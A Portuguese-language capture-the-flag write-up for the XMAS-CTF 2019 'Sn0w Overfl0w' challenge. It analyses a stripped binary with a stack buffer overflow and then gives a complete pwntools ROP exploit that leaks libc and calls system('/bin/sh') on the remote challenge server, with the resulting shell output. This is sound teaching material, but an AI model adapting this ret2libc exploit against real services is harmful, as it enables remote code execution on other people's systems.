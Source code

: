# Writeup "Sn0w Overfl0w" - XMAS-CTF 2019
#### Categories: pwn, Return Oriented Programming (ROP), Buffer Overflow (BOF), leaking libc

A challenge nos oferece apenas um binário que o nomearemos como "chall".

Executando o binário, obtemos um prompt para "Helloooooo, do you like to build snowmen?" como demonstrado a seguir:
```
fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# ./chall                                                
Helloooooo, do you like to build snowmen?
```

Visualizando as chamadas para libraries que o binário faz, podemos reparar que ele executa um strcmp do nosso input com o texto "yes":
```
fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# ltrace ./chall
setvbuf(0x7fbbf81f3a00, 0, 2, 0)                                                                             = 0
setvbuf(0x7fbbf81f4760, 0, 2, 0)                                                                             = 0
puts("Helloooooo, do you like to build"...Helloooooo, do you like to build snowmen?)                         = 42
read(yes, "yes\n", 100)                                                                                     = 4
strcmp("yes\n", "yes")                                                                                       = 10
puts("Mhmmm... Boring..."Mhmmm... Boring...)
```
Na verdade, teriamos que introduzir o "yes" de forma que o caractere newline ("\n") nao entrasse no input, de forma que o strcmp retornasse true, porém todo esse processo demonstrou-se desnecessário ao analisarmos o binário com GDB e ghidra, descobrindo então a existência de um buffer overflow no binário.

## Binário Stripped
Como se trata de um binário stripped, teremos que achar a função main manualmente, podemos fazer isso da seguinte forma:
```
1. fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# gdb ./chall
2. gef➤  info file
   Symbols from "/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall".
   Local exec file:
           `/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall', file type elf64-x86-64.
           Entry point: 0x401070
           0x00000000004002a8 - 0x00000000004002c4 is .interp
           0x00000000004002c4 - 0x00000000004002e4 is .note.ABI-tag
           .................. ................. .................
3. gef➤  b *0x401070
   Breakpoint 1 at 0x401070
4. gef➤  r
	Starting program: /home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall                                                              	                                         
	
	Breakpoint 1, 0x0000000000401070 in ?? ()
5. gef➤  x/20i $rip
   => 0x401070:    endbr64
      0x401074:    xor    ebp,ebp
      0x401076:    mov    r9,rdx
      0x401079:    pop    rsi
      0x40107a:    mov    rdx,rsp
      0x40107d:    and    rsp,0xfffffffffffffff0
      0x401081:    push   rax
      0x401082:    push   rsp
      0x401083:    mov    r8,0x401280
      0x40108a:    mov    rcx,0x401210
      0x401091:    mov    rdi,0x401167
      0x401098:    call   QWORD PTR [rip+0x2f52]        # 0x403ff0
      0x40109e:    hlt
      0x40109f:    nop
      0x4010a0:    endbr64
      0x4010a4:    ret
      0x4010a5:    nop    WORD PTR cs:[rax+rax*1+0x0]
      0x4010af:    nop
      0x4010b0:    mov    eax,0x404040
      0x4010b5:    cmp    rax,0x404040
```
Ok, o endereço do começo de main() é 0x401167. Mas como exatamente descobrimos isso?
No passo 2 e 3, obtemos e setamos um breakpoint para o entry point do binário, oque nada mais é que o ponto de entrada do programa, ali encontram-se as primeiras instruções de um binário, pois bem o push do endereço de main para __libc_start_main.
__libc_start_main será setado posteriormente, enquanto isso, podemos apenas assumir, que a chamada feita em 0x401098 se trata de uma "call __libc_start_main" e receberia como argumento 0x401167, o qual é mov'ido para o primeiro general purpose register $rdi a fim de ser usado como argumento para a função __libc_start_main. Logo, 0x401167 é o endereço de início da nossa função main.

## Entendendo o Execution Flow do programa e Identificando Buffer Overflow
Com a função main em mãos, podemos analisar ela via ghidra.
A função main decompilada se comporta da seguinte maneira:
```
undefined8 FUN_00401167(void)

{
  int iVar1;
  char local_12 [10];
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Helloooooo, do you like to build snowmen?");
  read(0,local_12,100);
  iVar1 = strcmp(local_12,"yes");
  if (iVar1 == 0) {
    puts("Me too! Let\'s build one!");
  }
  else {
    puts("Mhmmm... Boring...");
  }
  return 0;
}
```
É explícita a existência de um buffer overflow ao ler 100bytes de dados para uma variavel que suporta apenas 10.
Possuindo um BOF no binário, podemos pular para a parte da exploração, porem antes disso, precisamos checkar as proteções que o binário possúi:
```
fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# checksec ./chall 
[*] '/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
"NX Enabled", No Execute esta ativado, isto é, a stack inteira se torna read-only, impossibilitando o clássico ataque de buffer-overflow consistindo na "alocação" e chamada do shellcode na stack.
A fim de burlarmos tal proteção, faremos um ataque do tipo Return Oriented Programming (ROP).

Nosso exploit final ficará da seguinte forma:
```
from pwn import *

p = remote("challs.xmas.htsp.ro", 12006)
elf = ELF("./chall")
libc = ELF("libc-2.27.so")
rop = ROP(elf)

pad = "A"*(18)
puts = elf.plt["puts"]
libc_start_main = elf.symbols["__libc_start_main"]
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
RET = (rop.find_gadget(['ret']))[0]

info("puts@plt => "+hex(puts))
info("__libc_start_main => "+hex(libc_start_main))
info("pop rdi => "+hex(pop_rdi))

rop = pad + p64(pop_rdi) + p64(libc_start_main) + p64(puts) + p64(0x401070)
p.sendlineafter("snowmen?", rop)
p.recvline()
p.recvline()
leaked__libc_start_main = u64(p.recvline().strip().ljust(8, "\x00"))
info("Leaked __libc_start_main@GLIBC => "+hex(leaked__libc_start_main))

libc.address = leaked__libc_start_main - libc.sym["__libc_start_main"]
libc_base = libc.address
info("libc base => "+hex(libc_base))

system = libc.sym["system"]
str_bin_sh = next(libc.search("/bin/sh"))

info("/bin/sh => %s " % hex(str_bin_sh))
info("system => %s " % hex(system))

xpl = pad + p64(RET) + p64(pop_rdi) + p64(str_bin_sh) + p64(system)
p.sendlineafter("snowmen?", xpl)

p.interactive()
```

## Pwning!!
```
fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# python xpl.py      
[+] Opening connection to challs.xmas.htsp.ro on port 12006: Done
[*] '/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loading gadgets for '/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall'
[*] puts@plt => 0x40102c
[*] __libc_start_main => 0x403ff0
[*] pop rdi => 0x401273
[*] Leaked __libc_start_main@GLIBC => 0x7fb0ba683ab0
[*] libc base => 0x7fb0ba662000
[*] /bin/sh => 0x7fb0ba815e9a 
[*] system => 0x7fb0ba6b1440 
[*] Switching to interactive mode

Mhmmm... Boring...
$ cat flag.txt
X-MAS{700_much_5n0000w}
```
